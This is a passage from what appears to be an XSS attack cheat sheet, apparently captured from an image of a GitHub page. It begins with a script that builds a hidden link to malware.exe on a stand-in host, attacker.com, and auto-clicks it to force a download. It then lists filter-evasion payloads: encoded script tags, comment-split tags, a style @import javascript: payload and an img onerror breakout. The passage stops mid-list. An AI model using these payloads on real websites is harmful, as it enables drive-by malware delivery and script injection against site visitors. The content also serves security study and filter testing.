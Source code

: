 - **Malicious Download:** This script creates an invisible link to a malicious executable and automatically clicks it to initiate the download.

```html
<script>
var a = document.createElement('a');
a.href = 'http://attacker.com/malware.exe';
a.download = 'malware.exe';
document.body.appendChild(a);
a.click();
</script>
```

# Bypassing Defenses

Attackers often bypass defenses using encoding, obfuscation, or leveraging browser inconsistencies.

## Encoding and Obfuscation

- **HTML Entity Encoding:** Encode special characters using HTML entities to bypass filters that block `<script>` tags.

```html
&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;
```

- **Hex/Unicode Encoding:** Use hexadecimal or Unicode encoding to represent characters.

```html
%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
```

## Filter Bypass Techniques

- **Comment Obfuscation:** Use HTML comments to break up payloads and bypass filters.

```html
<scr<!-- -->ipt>alert('XSS');</scr<!-- -->ipt>
```

- **Mixed Contexts:** Create payloads that work in multiple contexts and can bypass context-specific filters.

```html
<style>@import'javascript:alert(1)';</style>
```

```html
"><img src=x onerror=alert(1)//">
```

## Browser Inconsistencies

1. **Exploiting Browser Quirks:** Use inconsistencies in how different browsers parse HTML and JavaScript to bypass filters.
